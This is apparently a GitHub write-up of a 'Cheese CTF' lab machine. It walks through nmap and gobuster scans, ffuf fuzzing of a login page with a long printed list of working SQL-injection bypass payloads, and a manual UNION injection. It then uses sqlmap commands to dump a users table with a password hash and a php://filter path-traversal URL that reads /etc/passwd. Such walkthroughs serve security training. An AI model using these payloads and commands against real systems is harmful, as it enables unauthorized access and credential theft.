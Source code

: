 # Cheese CTF       


## ``nmap scan``

```
nmap -sCV 10.10.0.223
```

![image](https://github.com/user-attachments/assets/c6f79a9d-c448-47f2-9fd6-1ba6289318e0)



## ``gobuster``

```
gobuster dir -u http://10.10.0.223/ -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt
```

![image](https://github.com/user-attachments/assets/6ad6f0aa-b52b-42d5-bc70-7a7b89d02d90)





## ``ffuf``
> you can sue ``ffuf`` to fuzz and bypass login page :

```
ffuf -w SQL_login_bypass.txt -X POST -u http://10.10.0.223/login.php -d 'username=FUZZ&password=asdf' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 227
```

``found``

![image](https://github.com/user-attachments/assets/24c827a5-71b9-4e89-a18a-ebebe14f79fb)


```
' OR 'x'='x'#;          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 166ms]
'-''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'-''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 98ms]
'^''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 96ms]
'^''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 96ms]
'*''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
'*''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
'=''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
'=''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 108ms]
'oR'2'LiKE'2'-- 2       [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 105ms]
'oR'2'LiKE'2'#          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 117ms]
' UniON SElecT 1,2,3-- 2 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 97ms]
' UniON SElecT 1,2,3#   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 97ms]
'UniON(SElecT(1),2,3)-- 2 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 93ms]
'UniON(SElecT(1),2,3)#  [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 106ms]
'||2-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 94ms]
'||'2'||'               [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 93ms]
'||2#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 94ms]
'||2||'                 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 99ms]
'||'2'='2'||'           [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||2=2-- 2              [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 93ms]
'||2=2#                 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||2=2||'               [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||true||'              [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 114ms]
'||true-- 2             [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 114ms]
'||'2'LiKE'2'-- 2       [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 98ms]
'||'2'LiKE'2'#          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 98ms]
'||true#                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 114ms]
'||'2'LiKE'2'||'        [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 96ms]
'||(2)LiKE(2)-- 2       [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 97ms]
'||(2)LiKE(2)#          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||(2)LiKE(2)||'        [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
%A8%27||1-- 2           [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 136ms]
%bf'||1-- 2             [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 133ms]
%8C%A8%27||1-- 2        [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 133ms]
:: Progress: [804/804] :: Job [1/1] :: 334 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```





----
----

<details>
   <summary>inject manual</summary>

> first try ``' or 1=1; -- -`` but not work

``try union``

```
' union select 1 -- -
' union select 1,2 -- -
' union select 1,2,3 -- -
```
and Boom!!! 

it work on 3 columns and bypassed login 

> if you try to extract data from this and appear database content it will not apper ✅ SQLi exists, ❌ but data can’t be extracted via this page.

</details>

----
----


## ``SQLmap``

```
sqlmap -u "http://10.10.0.223/login.php" --data="username=admin&password=pass" --level=5 --risk=3 --threads=5 --dbs
```

``found databases``

```
available databases [2]:
[*] information_schema
[*] users
```

![image](https://github.com/user-attachments/assets/826eb9e0-20b7-4a08-a192-213def942148)


``find tables in users database``

```
sqlmap -u "http://10.10.0.223/login.php" --data="username=admin&password=pass" -D users --tables
```

``found users table``

![image](https://github.com/user-attachments/assets/36fa6cb3-89fb-493b-8c00-afb08453340c)


``get content of users``

```
sqlmap -u "http://10.10.0.223/login.php" --data="username=admin&password=pass" -D users -T users --dump
```

![image](https://github.com/user-attachments/assets/dddc5c59-a882-4c82-b594-6f474d955d26)

```
retrieved: 5b0c2e1b4fe1410e47f26feff7f4fc4c
retrieved: comte
```
```
+----+----------------------------------+----------+
| id | password                         | username |
+----+----------------------------------+----------+
| 1  | 5b0c2e1b4fe1410e47f26feff7f4fc4c | comte    |
+----+----------------------------------+----------+
```


> ### tryed to hash password but not found crack to it so try to found another way to get in system


## ``path traversal``

after bypass login page found :


![image](https://github.com/user-attachments/assets/51963ef7-59a5-4c25-8bfa-81317651aa83)

try to make url like ``http://10.10.0.223/secret-script.php?file=php://filter/resource=../../../../etc/passwd`` found

![image](https://github.com/user-attachments/assets/9231f3b9-6553-4b70-b9db-40bb92ee361a)

Boom !!!

> notice we found in /etc/passwd our user we found ``comte``





